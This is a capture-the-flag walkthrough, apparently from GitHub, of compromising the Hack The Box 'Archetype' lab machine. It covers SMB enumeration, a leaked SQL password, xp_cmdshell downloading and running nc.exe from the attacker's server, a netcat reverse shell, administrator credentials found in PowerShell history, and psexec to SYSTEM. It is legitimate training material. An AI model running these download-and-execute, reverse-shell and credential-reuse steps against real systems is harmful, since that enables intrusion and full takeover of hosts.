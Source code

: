 # Hack The Box Archetype Walkthrough

## Archetype

Assign the IP address of the Archetype machine to an environment variable:  
```export IP=10.10.10.27```  

Scan the Archetype machine:  
**-sC** for a script scan using the default scripts  
**-sV** for version detection  
**-Pn** disable host discovery (we already know the host is up)  
```nmap -sC -sV -Pn $IP```

**Open Ports**
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
smb running on ports 135/139/445
SQL server running on 1433
computer name: ARCHETYPE
smb security mode:
	- account_used: guest
	- authentication_level: user
```
It looks like SMB is running on ports **135/139/445** as well as a SQL server instance running on port **1433**. Also, it looks like the nmap scan discovered that the smb security mode is using guest access.  
Let's list the available SMB shares on the target:  
```smbclient -N -L ////$IP//```  

**SMB shares**
```
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
```

The backups share looks interesting, let's attempt to access the backups SMB share:  
```smbclient //$IP/backups```
```
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8256400 blocks available

```
Let's download the **prod.dtsConfig** and have a look at it:  
```smb: \> get prod.dtsConfig```
```
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
```
Back on our Kali machine, let's print the contents of the file we just got:  
```cat prod.dtsConfig```

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Let's attempt to connect to the SQL server using the credentials found in the prod.dtsConfig file:  
```impacket-mssqlclient sql_svc:M3g4c0rp123@$IP -windows-auth```
```
SQL >
```

This is great for an initial foothold, but we need to do some privilege escalation because this user doesn't have administrative privileges. Because we're able to execute commands on the target machine using xp_cmdshell via the SQL connection, let's try to get netcat onto the target machine so we can initiate a reverse shell.  

Copy the nc.exe from the windows-resources folder on Kali to my home folder:  
```cp /usr/share/windows-resources/binaries/nc.exe .```

Start a python3 web server in the current folder to host the nc.exe file:  
```python3 -m http.server 80```
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine, download the nc.exe file using xp_cmdshell, wget, and the previous mssqlclient connection. We're going to put it into the **%TEMP%** folder:  
```xp_cmdshell powershell wget http://10.10.17.159/nc.exe -OutFile %TEMP%\nc.exe -UseBasicParsing```
```
10.10.10.27 - - [27/Jun/2021 21:57:14] "GET /nc.exe HTTP/1.1" 200 -
```

Start a nc listener on my Kali machine on port **4444** to listen for a reverse shell connection:  
```sudo nc -lvnp 4444```

Change directory to **C:\Users\sql_svc\Desktop** and print the **user.txt** for the user flag:  
```cd C:\users\sql_svc\Desktop```
```more user.txt```
```
3e7b102e78218e935bf3f4951fec21a3cd
```

From the target machine, use xp_cmdshell once again to execute the nc.exe file we just put onto the target machine to connect to my Kali machine on port **4444**:  
```xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.17.159 4444 -e cmd.exe"```
```
C:\Windows\system32>whoami
whoami
archetype\sql_svc
```

By poking around for the powershell history file, we find it in the default directory:  
```dir/s *history.txt```
```
c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

The following details are contained within the history file:  
```more ConsoleHost_history.txt```
```
net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**
```

It looks like someone is using an Administrator account to map the SMB share, and we just got some potential admin credentials! Let's try them out back on our Kali machine with impacket's psexec:  
```impacket-psexec administrator@$IP```

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file fzsGgOsb.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dMzL on 10.10.10.27.....
[*] Starting service dMzL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

Let's check what account we're current using:
```C:\Windows\system32>whoami```

```
nt authority\system
```

Boom! Well done! Now we just need to find the root/system flag, it's generally in the Desktop folder for the respective user/system account:  
```c:\Users\Administrator\Desktop>more root.txt```

```
b91ccec3305e98240082d4474b848528
```
